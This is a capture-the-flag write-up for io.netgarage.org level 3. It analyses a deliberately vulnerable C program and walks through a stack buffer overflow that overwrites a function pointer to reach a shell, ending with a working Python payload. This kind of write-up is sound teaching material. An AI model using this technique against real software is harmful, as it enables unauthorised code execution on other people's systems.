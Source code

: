 # Preparation
From **previous level**, we have:
- Username: level3
- Password: ----------------- :)
- Ssh server: io.netgarage.org
# Start
`/levels/level03.c`
```cpp
//bla, based on work by beach

#include <stdio.h>
#include <string.h>

void good()
{
        puts("Win.");
        execl("/bin/sh", "sh", NULL);
}
void bad()
{
        printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
}

int main(int argc, char **argv, char **envp)
{
        void (*functionpointer)(void) = bad;
        char buffer[50];

        if(argc != 2 || strlen(argv[1]) < 4)
                return 0;
        memcpy(buffer, argv[1], strlen(argv[1]));
        memset(buffer, 0, strlen(argv[1]) - 4);

        printf("This is exciting we're going to %p\n", functionpointer);
        functionpointer();

        return 0;
}
```
This is a basic buffer overflow exploit. Our mission is to set `functionpointer = good`
## What we have:
- `memcpy` function copies from `argv[1]` to `buffer` of size 50 without checking size
- `functionpointer()` calls directly in source code.
- checksec to ensure `PIE` is disabled
```bash
level3@io:/levels$ checksec level03
[*] '/levels/level03'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
## Exploit:
First, we need to know where's `functionpointer` located. This can be done by finding address of `bad` function and examining stack in gdb.
```
level3@io:/levels$ objdump -d level03 | grep bad
080484a4 <bad>:
level3@io:/levels$ objdump -d level03 | grep good
08048474 <good>:
```
Now we know `bad` function is located at 0x080484a4 and `good` at 0x08048474
Break at printf and start the program with identical string `ABCD`
```bash
0x08048568 <+160>:   call   0x80483ac <printf@plt>
...
(gdb) break * 0x08048568
(gdb) run ABCD
```
Examine the stack:
```cpp
(gdb) x/30x $esp
0xbffffb30:     0x080486c0      0x080484a4      0x00000000      0x08048274
0xbffffb40:     0x00000000      0xbffffbe4      0xb7fc1000      0x00000005
0xbffffb50:     0x44434241 <-   0xb7fc1000      0xb7e19e18      0xb7fd58e8
0xbffffb60:     0xb7fc1000      0x080497c8      0xbffffb78      0x08048338
0xbffffb70:     0xffffffff      0x080497c8      0xbffffba8      0x080485a9
0xbffffb80:     0x00000002      0xb7fc1000      0x00000000      0xb7e3ba2b
0xbffffb90:     0xb7fc13dc      0x080481b4      0x0804859b      0x080484a4 <-
0xbffffba0:     0x00000002      0xb7fc1000
```
Our `buffer` is at address `0xbffffb50`, and `functionpointer` at `0xbffffb9C` so that the offset will be `0x9c - 0x50 = 76`

Our payload: 76 junk characters + address of `good` function in little endian format
```
level3@io:/levels$ ./level03 $(python -c "print('A' * 76 + '\x74\x84\x04\x08')")
This is exciting we're going to 0x8048474
Win.
sh-4.3$
```